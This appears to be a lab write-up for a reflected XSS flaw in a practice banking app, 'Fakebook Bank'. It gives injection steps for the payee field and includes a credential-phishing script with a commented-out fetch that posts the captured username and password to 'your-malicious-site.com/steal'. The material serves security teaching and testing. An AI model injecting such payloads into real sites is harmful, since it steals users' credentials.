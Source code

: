 # Fakebook Bank

## Description
This scenario has a reflection when a user enter the payee name. The user input is reflected back in the response without proper sanitization, allowing an attacker to inject malicious scripts.


## Steps to Reproduce
1.  Put in Payee Name: 
```html
<script>alert('XSS')</script>
```

2. If you want to put in login fields, you can use the following:
```html
<script>
    // Step 1: Prompt the user for credentials
    let username = prompt("Enter your username:");
    let password = prompt("Enter your password:");

    // Step 2: Display a fake "login successful" message
    alert("Login successful! Your credentials have been saved.");

    // Step 3: Send or log the captured credentials
    console.log("Captured Credentials:", username, password);

    // Optionally send the credentials to an external server (for simulation)
    // fetch('http://your-malicious-site.com/steal', {
    //     method: 'POST',
    //     headers: {'Content-Type': 'application/json'},
    //     body: JSON.stringify({username, password})
    // });
</script>

```

## Impact
An attacker can inject a script that executes when the user enters the payee name, potentially stealing cookies or other sensitive information. This can lead to unauthorized access and data manipulation.
